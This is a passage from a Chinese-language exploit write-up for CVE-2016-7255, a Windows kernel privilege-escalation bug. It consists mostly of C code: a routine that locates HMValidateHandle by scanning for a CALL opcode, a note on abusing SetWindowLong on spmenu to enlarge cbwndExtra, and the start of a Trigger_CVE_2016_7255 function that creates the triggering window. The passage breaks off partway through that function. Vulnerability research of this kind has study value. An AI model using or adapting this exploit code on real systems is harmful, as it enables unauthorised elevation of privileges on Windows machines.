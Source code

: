 ```
    {
        if (pIsMenu[i] == 0xE8)
        {
            dwFuncOffset = *(PDWORD)(pIsMenu + i + 1);
            pFuncAddr = (PVOID)(dwFuncOffset + pIsMenu + i + 5);
            break;
        }
    }

exit:
    return pFuncAddr;
}
```  
  
  
通过HMValidateHandle可以获取cbwndExtra，在调用SetWindowLong修改spmenu的时候，可以将写入值指定为cbwndExtra  + 3  - 0x14的地址，这样就可以利用或操作扩大cbwndExtra，相应代码如下：  
```
BOOL Trigger_CVE_2016_7255(HWND *hWndList)
{
    BOOL bRet = TRUE;
    HWND hTriggerWnd = NULL, hDesktop = NULL;
    WNDCLASSEX wc = { 0 };
    char *pClassName = "Trigger";
    DWORD i = 0;

    // 获取父窗口
    hDesktop = GetDesktopWindow();
    if (!hDesktop)
    {
        bRet = FALSE;
        ShowError("GetDesktopWindow", GetLastError());
        goto exit;
    }

    memset(&wc, 0, sizeof(wc));
    wc.cbSize = sizeof(wc);
    wc.hInstance = GetModuleHandle(NULL);
    wc.lpfnWndProc = DefWindowProc;
    wc.lpszClassName = pClassName;

    if (!RegisterClassEx(&wc))
    {
        bRet = FALSE;
        ShowError("RegisterClassEx", GetLastError());
        goto exit;
    }

    // 创建触发漏洞的窗口
    hTriggerWnd = CreateWindowEx(NULL,
                                 pClassName,
                                 NULL,
                                 WS_VISIBLE,
                                 0, 0, 100, 100,
                                 hDesktop,         // 指定父窗口为桌面窗口
                                 0,
                                 GetModuleHandle(NULL),
                                 0);
    if (!hTriggerWnd)
    {
        bRet = FALSE;
        ShowError("CreateWindowEx", GetLastError());
        goto exit;
    }
```